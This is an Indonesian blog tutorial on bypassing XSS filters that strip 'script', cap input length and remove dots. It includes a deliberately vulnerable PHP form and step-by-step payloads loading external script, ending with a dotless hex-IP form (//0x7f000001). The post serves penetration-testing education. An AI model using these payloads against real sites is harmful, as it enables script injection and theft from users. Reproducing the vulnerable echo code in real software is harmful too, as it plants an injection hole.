


**XSS Tanpa Titik** - Kali ini saya akan menjelaskan sedikit tentang filter yang biasa digunakan untuk menangani XSS. Namun, ada yang lebih unik, yaitu filter karakter dots (`.`) dan cara mem-bypass filter tersebut.

Sebelum melanjutkan, silahkan baca [Disclaimer](https://akbar.kustirama.id/disclaimer/) terlebih dahulu. Jika kamu setuju dengan pernyataan disana, silahkan melanjutkan membaca :D

### Beberapa Contoh Filter XSS

Pertama, kita memiliki target yang memfilter kata **script**. Namun, filter ini tidak dilakukan dengan cara **case-insensitive**, yang tentunya masih mudah untuk dibypass. Sebagai contoh:

`$data = str_replace('script', '' , $data);`

Dalam hal ini, dengan menggunakan **ScRiPt**, kita sudah mem-bypass filter tersebut.

Selanjutnya, ada batasan panjang karakter. Meskipun ini sudah dibahas di beberapa Cheatsheet XSS, tapi ini masih sesuatu yang harus diperhitungkan saat melakukan tes. Sebagai contoh:

`$data = substr($data, 0, 50);`

Yang terakhir tapi tidak kalah penting adalah filter untuk titik. Dalam hal ini, aplikasi mencegah muatan seperti **abay.now.sh**. Sebagai contoh:

`$data = str_replace('.', '', $data);`

### Contoh Vulnerable Code

```php
<?php
error_reporting(0);
function xss_clean($data)
{
    $data = str_replace('script', '' , $data);
    $data = substr($data, 0, 50);
    $data = str_replace('.', '', $data);
    // $data = strtoupper($data);
    return $data;
}
?>
<html>
	<head>
		<title>Vulnerable to Dotless XSS</title>
	</head>
	<body>
		Vulnerable form:
		<form>
			<input type="text" value="<?php echo xss_clean($_GET['value']); ?>" maxlength="50">
			<button type="submit">Submit</button>
		</form>
		<script>
			console.log("This is my logger function (I'll need this closing script tag later)!");
		</script>
	</body>
</html>
```

### XSS Tanpa Titik

Berdasarkan serangan Short XSS biasa, payload kita akan terlihat seperti ini:

`value="><script src=//abay.now.sh>`

Pertama, kita perlu mengonversi tag `script` menjadi [camel-case](https://www.computerhope.com/jargon/c/camelcas.htm).

`value="><ScRiPt src=//abay.now.sh>`

Sampai disini kita sudah memenuhi persyaratan (filter) batas panjang karakter, jadi kita tidak perlu khawatir tentang filter itu.

**_Sayangnya kita belum mem-bypass filter terakhir._**

**Metode termudah adalah dengan menggunakan nama host di jaringan internal**. Jika kamu memasang payload pada localhost dan mengaksesnya hanya menggunakan nama host, maka kamu bisa mengatasi filter ini.

`value="><ScRiPt src=//localhost>`

Script dari aplikasi web yang mengandung **src** kita arahkan ke **localhost** saya dengan payload yang sudah tertanam di dalamnya. Sehingga hasil akhirnya akan menjadi seperti ini:

`<input type="``text``" value=""><ScRiPt src=//localhost>" maxlength="50">`



Namun pada beberapa waktu pasti ada saat dimana kita tidak bisa mengendalikan nama host di jaringan internal. Dalam hal ini, saya harus melakukan beberapa tipu daya lagi.

Bagi kamu yang belum tahu, kamu dapat me-[*represent*](https://en.wikipedia.org/wiki/IPv4#Address_representations) alamat IP dalam berbagai cara. Termasuk dot-desimal (standar), desimal, oktal, dan hex. Tiga yang terakhir tidak memerlukan titik sama sekali, itulah yang akan saya gunakan kali ini!

Tenang, tidak perlu mengonversi secara manual, kita bisa menggunakan [IP Manipulator](https://github.com/joshuaskorich/IP-Manipulator).

```
abay@codelatte:~$ ./ip.py 127.0.0.1

        IP Address Manipulator       
-------------------------------------
127.0.0.1 ----> 127.0.0.1
127.0.0.1 ----> 127.0.1
127.0.0.1 ----> 127.1
127.0.0.1 ----> 2130706433
127.0.0.1 ----> 0x7f.0x0.0x0.0x1
127.0.0.1 ----> 0x7f.0x0.0x1
127.0.0.1 ----> 0x7f.0x1
127.0.0.1 ----> 0x7f000001
127.0.0.1 ----> 0177.0.0.01
127.0.0.1 ----> 0177.0.01
127.0.0.1 ----> 0177.01
127.0.0.1 ----> 017700000001
```

*IP 127.0.0.1 kalian ganti dengan IP tempat kalian menyimpan payload XSS*

Sekarang, saya mempunyai alamat IP untuk **127.0.0.1** tanpa titik, jadi mari kita coba.

`"><ScRiPt SRC=//0x7f000001>" maxlength="50">`

Payload nya berjalan sempurna :D



### Penutup

Meskipun ini sedikit skenario yang dibuat-buat, filter seperti masih menjadi sesuatu yang bisa atau mungkin sering ditemukan di dunia nyata. Filter XSS tidak selalu sempurna, dan beberapa teknik menarik terkadang dapat memintasinya.

Kali ini kita bisa melewati filter kata **script**, pembatasan panjang karakter dan membuat payload XSS tanpa titik (dotless). Selain itu, payload tersebut di-host secara eksternal dan kita tetap bisa melakukan XSS dengan itu. Terima kasih sudah membaca tulisan saya :D
